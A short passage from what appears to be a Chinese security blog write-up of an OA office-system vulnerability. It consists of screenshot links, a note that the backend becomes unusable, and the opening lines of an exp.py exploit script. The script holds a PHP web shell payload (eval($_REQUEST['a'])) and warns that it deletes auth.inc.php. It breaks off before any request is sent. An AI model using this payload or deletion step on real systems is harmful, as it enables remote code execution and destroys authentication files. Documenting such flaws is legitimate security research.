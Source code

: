 ![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/08.png)

#### 后果
会使后台不能用
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/09.png)
#### exp.py
```
import requests
target="http://127.0.0.1:8203/"
payload="<?php eval($_REQUEST['a']);?>"
print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("[*]Deleting auth.inc.php....")
```